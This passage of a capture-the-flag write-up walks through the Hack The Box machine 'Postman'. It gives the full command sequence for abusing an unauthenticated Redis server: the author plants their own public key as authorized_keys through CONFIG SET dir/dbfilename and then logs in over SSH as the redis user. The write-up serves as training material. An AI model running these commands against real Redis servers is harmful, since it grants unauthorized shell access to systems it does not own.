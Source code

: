 We have access to the redis server. After checking some info we found the redis folder in the victim machine

```bash
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
```

Following **[this Hacktricks redis exploitation post](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh)** we can exploit this by authorize us in with ssh

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.

[...SNIP...]

┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt 

┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ ls
id_rsa  id_rsa.pub  nmap  spaced_key.txt

┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ cat spaced_key.txt| redis-cli -h 10.10.10.160 -x set ssh_key
OK
┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ redis-cli -h 10.10.10.160        
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ ssh -i id_rsa redis@10.10.10.160

[...SNIP...]
redis@Postman:~$ whoami
redis
```

And we got a shell
